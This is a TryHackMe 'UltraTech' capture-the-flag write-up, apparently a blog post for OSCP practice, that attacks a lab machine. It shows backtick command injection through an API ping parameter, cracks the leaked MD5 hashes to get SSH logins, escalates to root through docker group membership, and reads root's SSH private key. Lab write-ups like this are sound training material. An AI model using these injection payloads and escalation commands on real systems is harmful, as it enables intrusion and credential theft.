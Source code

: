 ```yaml
---
layout: post
title:  THM UltraTech Write-up
description: Part of the OSCP+ Preparation Series
date:   2024-11-12 11:00:00 +0300
image:  '/images/thm_ultratech.png'
tags:   [Write-ups, THM, OSCP+, Medium, API, Arbitrary-File-Read, SSH, GTFOBins-Shell, Docker]
---
```


# Table of Contents
- [Enumeration](#enumeration)
  - [Nmap](#nmap)
  - [Web Enumeration](#web-enumeration)
- [Foothold](#foothold)
  - [Interacting with the API URL to enumerate files and find hashes on database .db file](#interacting-with-the-api-url-to-enumerate-files-and-find-hashes-on-database-db-files)
  - [Cracking the hashes](#cracking-the-hashes)
  - [Getting SSH access as r00t](#getting-ssh-access-as-r00t)
- [Privilege Escalation](#privilege-escalation)
  - [Using id to find out that r00t is part of docker group](#using-id-to-find-out-that-r00t-is-part-of-docker-group)
  - [Using shell GTFOBins command to escalate privileges](#using-shell-gtfobins-command-to-escalate-privileges)
  - [Reading id_rsa of root](#reading-id_rsa-of-root)

# Enumeration

### Nmap

```shell
# Step 1 - Find active ports
nmap -p- --min-rate 10000 10.10.211.145

# Step 2 - Focus scan on the active ports found
nmap -A -T4 -Pn -p21,22,8081,31331,37445 10.10.211.145
```

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-12 03:31 EST
Nmap scan report for 10.10.211.145
Host is up (0.052s latency).

PORT      STATE  SERVICE VERSION
21/tcp    open   ftp     vsftpd 3.0.3
22/tcp    open   ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:66:89:85:e7:05:c2:a5:da:7f:01:20:3a:13:fc:27 (RSA)
|   256 c3:67:dd:26:fa:0c:56:92:f3:5b:a0:b3:8d:6d:20:ab (ECDSA)
|_  256 11:9b:5a:d6:ff:2f:e4:49:d2:b5:17:36:0e:2f:1d:2f (ED25519)
8081/tcp  open   http    Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
31331/tcp open   http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)
37445/tcp closed unknown
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.26 seconds
```

Looking at the results of our nmap scan we can see FTP, SSH and two HTTP. Lets enumerate the HTTP ports first.

### Web Enumeration
If we visit port 8081, we will see UltraTech API v0.1.3, meaning that port 8081 is leading to an API:

```shell
http://10.10.211.145:8081/
```

If we visit port 31331, we will see a website of what seems to be a company.

We can also find a robots.txt file leading us to the file /utech_sitemap.txt:

```shell
http://10.10.211.145:31331/robots.txt
```

If we visit /utech_sitemap.txt, we will find more interesting files to visit:

```shell
/
/index.html
/what.html
/partners.html
```

We checked them, but the only interesting one seems to be /partners.html, leading us to a login portal.

If we inspect the source code of /partners.html, we will see this at the bottom:

```shell
<SNIP>
				</form>
				</div>
			</div>
		</div>
	</div>
	<script src='js/app.min.js'></script>
	<script src='js/api.js'></script>
</body>
</html>
```

If we click on js/api.js, it will lead us to another page, where we can see a line interacting with the API URL:

```shell
<SNIP>
    function checkAPIStatus() {
	const req = new XMLHttpRequest();
	try {
	    const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
	    req.open('GET', url, true);
	    req.onload = function (e) {
<SNIP>
```

Here it is:

```shell
const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
```

# Foothold
### Interacting with the API URL to enumerate files and find hashes on database .db file
It seems like the const url is using ping on an IP, lets try to ping 127.0.0.1, since we know this IP theoretically always exists, and see if we get any answer. We can do that entering the following URL in our web browser:

```shell
http://10.10.211.145:8081/ping?ip=127.0.0.1
```

```shell
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data. 64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.015 ms --- 127.0.0.1 ping statistics --- 1 packets transmitted, 1 received, 0% packet loss, time 0ms rtt min/avg/max/mdev = 0.015/0.015/0.015/0.000 ms
```

It worked! We got a response showing the results of running the ping command.

Now we can try to run other commands like whoami:

```shell
http://10.10.211.145:8081/ping?ip=whoami
```

It didnt work. Lets try to put whoami like 'whoami':

```shell
http://10.10.211.145:8081/ping?ip='whoami'
```

It also didnt work. Lets try something else. Maybe like \`whoami\`?

```shell
10.10.211.145:8081/ping?ip=`whoami`
```

```shell
ping: www: Temporary failure in name resolution
```

It worked! We got www as ping response, which is actually the result of running the whoami command.

Lets enumerate the files on the directory:

```shell
http://10.10.211.145:8081/ping?ip=`ls%20-al`
```

```shell
ping: utech.db.sqlite: Name or service not known 
```

It seems like there is only utech.db.sqlite. Lets check its content:

```shell
http://10.10.211.145:8081/ping?ip=`cat%20utech.db.sqlite`
```

```shell
ping: ) ���(Mr00tf357a0c52799563c7c7b76c1e7543a32)Madmin0d0ea5111e3c1def594c1684e3b9be84: Parameter string not correctly encoded
```

Nice! We got some hashes:

```shell
Mr00t:f357a0c52799563c7c7b76c1e7543a32
Madmin:0d0ea5111e3c1def594c1684e3b9be84
```

We can suppose that the first user is called "r00t" and the second one "admin".

### Cracking the hashes

Lets try to crack these hashes:

```shell
hashid 'f357a0c52799563c7c7b76c1e7543a32'
```

We got many results of possible valid hash types. Lets suppose its just a normal MD5, which uses -m 0 on hashcat. Now we can try to crack it:

```shell
hashcat -m 0 r00t_hash.txt /usr/share/wordlists/rockyou.txt
hashcat -m 0 admin_hash.txt /usr/share/wordlists/rockyou.txt
```

We were able to successfully crack both of them and retrieve the following passwords:

```shell
r00t:n100906
admin:mrsheafy
```

### Getting SSH access as r00t

Lets try to get access using SSH now using r00t as username and the password we just cracked:

```shell
ssh r00t@10.10.211.145
```

Nice! We got access as r00t.

# Privilege Escalation
### Using id to find out that r00t is part of docker group
Using the command id we were able to find out that r00t is part of the docker group:

```shell
id

uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
```

This may allow us to run docker with privileged permission.

### Using shell GTFOBins command to escalate privileges
Searching for docker on GTFOBins we found the following command:

```shell
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

```shell
r00t@ultratech-prod:~$ docker run -v /:/mnt --rm -it bash chroot /mnt sh
# whoami
root
```

It worked! We got a shell as root.

### Reading id_rsa of root
Now we can read the contents of the root id_rsa and answer the last question:

```shell
cat /root/.ssh/id_rsa
```